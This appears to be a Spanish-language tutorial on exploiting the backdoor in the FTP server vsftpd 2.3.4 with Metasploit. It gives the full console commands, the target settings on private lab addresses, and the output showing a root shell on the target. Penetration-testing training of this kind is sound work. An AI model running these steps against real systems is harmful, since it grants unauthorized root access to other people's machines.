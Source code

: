 # Explotación de vsftpd 2.3.4 en Linux con Metasploit

Este tutorial cubre cómo explotar la vulnerabilidad backdoor en `vsftpd 2.3.4`, una versión del servidor FTP que contiene una puerta trasera.

### 1. Iniciar Metasploit

Primero, inicia la base de datos de Metasploit y abre la consola:

```bash
$ sudo msfdb init && msfconsole
```

### 2. Seleccionar el exploit

Una vez en la consola de `Metasploit`, buscamos el exploit para `vsftpd 2.3.4`:

```bash
msf6 > search vsftpd
```

Seleccionamos el exploit adecuado:

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```

### 3. Configurar los parámetros del exploit

Configura las direcciones IP para la máquina atacante y la máquina objetivo:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set CHOST 192.168.1.18
CHOST => 192.168.1.18

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set CPORT 1717
CPORT => 1717

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.27
RHOSTS => 192.168.1.27

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
RPORT => 21
```

Verifica las opciones configuradas para asegurarte de que todo esté correcto:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

### 4. Ejecutar el exploit

Ahora, ejecutamos el exploit:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

Deberías ver un mensaje indicando que el exploit ha sido exitoso y que has obtenido acceso al sistema:

```bash
[*] 192.168.1.27:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.27:21 - USER: 331 Please specify the password.
[+] 192.168.1.27:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.27:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.18:1717 -> 192.168.1.27:6200)
```

### 5. Acceder al shell del sistema comprometido

Una vez obtenida la shell, puedes verificar que tienes privilegios de root en la máquina comprometida:

```bash
shell> whoami
root
```

***
